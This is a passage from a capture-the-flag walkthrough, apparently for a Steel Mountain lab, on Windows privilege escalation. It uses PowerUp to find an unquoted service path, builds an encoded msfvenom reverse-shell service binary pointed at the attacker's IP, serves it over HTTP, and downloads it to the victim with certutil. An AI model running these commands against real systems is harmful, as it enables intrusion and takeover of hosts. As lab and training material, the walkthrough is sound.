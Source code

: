 {% raw %}
```bash
PS > . .\PowerUp.ps1
PS > Invoke-AllChecks


ServiceName    : AdvancedSystemCareService9
Path           : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users; Permissions=AppendData/AddSubdirectory}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'AdvancedSystemCareService9' -Path <HijackPath>
CanRestart     : True
Name           : AdvancedSystemCareService9
Check          : Unquoted Service Paths

<snip>
```
{% endraw %}

<br />
Use msfvenom to generate a service executable to replace the executable from the PowerUp results.

{% raw %}
```bash
root@ip-10-10-30-38:~/Rooms/steelmountain# msfvenom -p windows/shell_reverse_tcp LHOST=10.10.30.38 LPORT=9001 -e x86/shikata_ga_nai -f exe-service -o Advanced.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of exe-service file: 15872 bytes
Saved as: Advanced.exe
root@ip-10-10-30-38:~/Rooms/steelmountain# python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
{% endraw %}

<br />
Use certutil.exe to transfer the binary to the victim machine.

{% raw %}
```bash
PS > certutil.exe -urlcache -f http://10.10.30.38:8000/Advanced.exe Advanced.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.
```
{% endraw %}

<br />
Start a netcat listener.
